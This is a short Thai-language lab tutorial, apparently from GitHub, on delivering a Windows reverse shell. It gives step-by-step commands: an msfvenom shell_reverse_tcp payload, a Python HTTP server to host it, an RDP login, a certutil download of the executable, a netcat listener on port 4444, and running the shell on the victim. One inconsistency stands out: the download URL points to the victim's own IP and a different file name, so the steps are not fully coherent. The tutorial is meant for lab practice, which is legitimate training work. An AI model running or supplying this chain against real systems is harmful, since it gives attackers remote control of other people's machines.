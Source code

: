 # Windows Download shell via certutil tools 

บน Windows เราสามารถใช้คำสั่ง certutil เพื่อดาวโหลดไฟล์ได้ ซึ่งจะคล้ายกับการใช้งาน Wget บน Linux นั่นเอง 

```powershell
certutil.exe -urlcache -f http://10.10.10.1/downloadfile.exe
# OR
certutil.exe -urlcache -f -split http://10.10.10.1/downloadfile.exe
```
จากตัวอย่างด้านบนเราสามารถทดสอบการโจมตีบน Windows ได้ดังต่อไปนี้
กำหนดให้ Windows มีหมายเลข IP เป็น 10.10.10.1 และ Kali Linux เป็น 10.10.10.2 

Step 1: สร้าง Payload ในรูปแบบไฟล์ .exe ด้วย msfvenom

```sh
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.2 LPORT=4444 -f exe > shell.exe
```

Step 2: เปิดให้ Download file ด้วยคำสั่ง Python
```python
python -m http.server 80
```

Step 3: ไปยัง Remote ไปยัง Windows ด้วยคำสั่ง xfreerdp
```sh 
xfreerdp /u:user /p:pass /cert:ignore /v:10.10.10.1
```

Step 4: ทำการ Dwonload ไฟล์ shell.exe บน Windows 
```powershell
certutil.exe -urlcache -f http://10.10.10.1/downloadfile.exe
# OR
certutil.exe -urlcache -f -split http://10.10.10.1/downloadfile.exe
```

Step 5: เปิด Connection ด้วย Netcat บน Kali เพื่อรอ Reverse shell 
```sh 
nc -lvnp 4444 
```

Step 6: Run shell.exe บน Windows 
```powershell
./shell.exe
```

Have FUN for LAB